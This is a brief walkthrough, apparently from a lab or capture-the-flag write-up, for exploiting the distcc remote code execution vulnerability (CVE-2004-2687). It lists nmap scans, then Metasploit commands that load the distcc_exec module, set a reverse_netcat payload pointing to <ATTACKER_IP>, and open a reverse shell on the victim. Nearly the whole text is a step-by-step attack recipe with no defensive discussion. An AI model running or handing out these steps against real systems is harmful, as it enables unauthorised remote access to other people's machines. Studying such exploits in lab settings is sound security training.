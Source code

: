 ## Distcc Remote Code Execution Walkthrough

1.  **Enumeration:** A full port scan (`nmap -p- <TARGET_IP>`) reveals that port 3632 is open. A version scan (`nmap -sV -p 3632 <TARGET_IP>`) identifies the service as `distcc`.
2.  **Vulnerability Identification:** A quick search for `distcc exploit` reveals a well-known Remote Code Execution vulnerability (CVE-2004-2687) in older versions when run with the `--allow` flag.
3.  **Exploitation:** Metasploit has a reliable module for this exploit.
    * Start Metasploit: `msfconsole`
    * Use the following commands:
        ```
        use exploit/unix/misc/distcc_exec
        set RHOSTS <TARGET_IP>
        set payload cmd/unix/reverse_netcat
        set LHOST <ATTACKER_IP>
        exploit
        ```
4.  **Result:** A reverse shell session will open, giving you command-line access to the victim machine.
